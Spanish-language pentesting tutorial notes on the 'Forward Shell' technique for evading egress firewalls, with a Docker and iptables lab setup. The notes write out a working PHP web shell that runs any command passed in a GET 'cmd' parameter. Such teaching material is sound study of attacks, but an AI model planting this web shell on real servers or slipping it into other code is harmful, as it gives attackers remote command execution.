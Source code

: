 ---------
## Forward Shell

El **Forward Shell** se emplea cuando el **Firewall** de la red tiene **Flags pre-establecidas** para que no se permita conexiones **Reverse Shell** y **Bind Shell** o que evite el trafico saliente desde esa red. Para realizar esta técnica debemos emplear **mkfifo** para jugar con **archivos temporales** a través de los cuales de un **input que tu pongas** en uno de los archivos existentes **puedas ver el output en otro archivo**. La **Named Pipe** es el nombre de una **técnica para lograr la comunicación entre diferentes procesos**, esta es una **forma alternativa** para poder conseguir una **consola interactiva**, o una **TTY interactiva** y de esta manera **eludiríamos** el **Firewall**.

### Creación de contenedor con restricción de conexiones

Para dar un ejemplo de esto deberíamos crear un contenedor con Docker que posea el **``iptables``** instalado y con Flags adicionales configuradas. Para esto debemos agregar al comando **``docker run``** el siguiente parámetro **``--cap-add=NET_ADMIN``**, quedando tal que así 
- **``docker run -dit -p80:80 --cap-add=NET_ADMIN --name (nombredecontenedor) (IDdeimagen)``**
Luego volvemos a entrar al contenedor con **``exec``** y reinstalamos **``iptables``**.
Una vez realizado todo esto utilizaremos **``iptables``** para crear la siguiente regla para que por el **protocolo TCP** hacia el puerto destino 80, todas las conexiones **sean aceptadas**.
- **``iptables -A OUTPUT -p tcp -m tcp -o eth0 --sport 80 -j ACCEPT``**
Ahora queremos que todo lo demás por el protocolo TCP esté bloqueado, por ende usamos
- **``iptables -A OUTPUT -o eth0 -j DROP``**
==Cualquier duda que tengamos podemos buscar por internet "Como bloquear todas las conexiones menos las del puerto '80' en un contenedor"==
### Ejecución de Forward Shell

Imaginemos que de alguna forma, conseguimos subir un **archivo ``.php``** al **servidor/maquina**, para esto claramente tiene que tener instalado **``php``**. Simularemos esto creando un archivo llamado **``cmd.php``** en el directorio **``/var/www/html/``**, en el que contendrá un **script sencillo en php** que se va a encargar de **permitirnos controlar el comando que queramos ejecutar**, todo esto **mediante el empleo de etiquetas pre-formateadas** y haciendo uso de la **función**:

- `echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";` para ejecutar un **comando a nivel de sistema** mediante una petición por **``GET``**, y con el parámetro **"``cmd``"** controlar el comando que queremos ejecutar, concatenándole el **cierre de la etiqueta pre formateada** al final para que todo el contenido nos lo muestre de **manera ordenada** y no en una linea sola. Todo lo anterior dicho **dentro del script** quedaría de esta manera.

```php
<?php
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

Ahora lo que haremos será borrar el archivo **``index.html``** a modo de ejemplo para que cuando entremos a la web **solo nos muestre el contenido del directorio** como tal.
Una vez hecho esto **ingresamos a la ubicación del script** que hicimos y lo que hacemos es **agregar** luego de donde dice http://localhost/cmd.php en el **URL**, la siguiente sintaxis
- **``?cmd=(comandoquequeramos)``**. Podríamos **intentar utilizar algunas de las técnicas anteriores** de **Reverse** o **Bind** para intentar enviarnos una bash, pero veríamos que **no funciona**, ya que ==iptables está bloqueando las conexiones==. 

